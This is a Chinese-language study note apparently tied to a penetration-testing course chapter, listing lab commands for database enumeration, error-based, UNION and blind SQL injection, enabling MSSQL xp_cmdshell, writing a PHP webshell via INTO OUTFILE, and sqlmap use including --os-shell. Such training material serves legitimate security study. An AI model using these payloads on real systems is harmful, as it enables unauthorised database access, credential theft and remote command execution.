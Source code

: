 本篇对应教材第10章，主要内容“SQL数据库基础”、“SQL注入”、“自动执行代码”，记录使用工具和命令

## 10.1 SQl及数据库基础

### 10.1.2 数据库基础

mysql登录数据库

```python
mysql -u root -p'root' -h 192.168.50.16 -P 3306
```

查看数据库版本

```python
select version();
```

查看系统用户

```python
select system_user();
```

查看数据库名

```python
show databases;
```

查看具体表中数据

```python
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```

mssql登录

```python
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```

查看版本

```python
SELECT @@version;
```

查看数据库名

```python
SELECT name FROM sys.databases;
```

查看表名

```python
SELECT * FROM offsec.information_schema.tables;
```

查看具体表内容

```python
select * from offsec.dbo.users;
```

## 10.2 SQl注入

### 10.2.1 基于报错的sql注入

例子

```python
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

用户名输入

```python
offsec' OR 1=1 -- //
```

执行的sql语句是

```python
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --
```

可以绕过密码登录成功

一般先用单引号测试

```python
offsec'
```

有报错信息可以尝试注入，获得数据库版本

```python
' or 1=1 in (select @@version) -- //
```

查询表中数据

```python
' OR 1=1 in (SELECT * FROM users) -- //
```

如果报错尝试查单列

```python
' or 1=1 in (SELECT password FROM users) -- //
```

查执行用户

```python
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

### 10.2.2 基于联合查询的SQL注入

例如

```python
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

输入

```python
' ORDER BY 1-- //
```

提示报错或者出现列数，比如6

```python
%' UNION SELECT database(), user(), @@version, null, null -- //
```

联合查询会执行后面的查询依据，但是数据类型需要与原来字段一致，否则现实不出来，如果不一致可以改变位置

```python
' UNION SELECT null, null, database(), user(), @@version  -- //
```

```python
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

```python
' UNION SELECT null, username, password, description, null FROM users -- //
```

查表明、字段名、查数据均可

### 10.2.3 盲注

不报错也没有回显，可以基于时间盲注

```python
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

返回真，再用sleep函数做判断

```python
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

## 10.3 自动执行代码

### 10.3.1 代码执行

mssql执行命令

```python
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';
```

联合查询webshell写入

```python
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

php webshell

```python
<? system($_REQUEST['cmd']); ?>
```

### 10.3.2 自动化

sqlmap（-p 参数）

判断注入

```python
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
```

读取数据

```python
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
```

抓包注入

```python
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
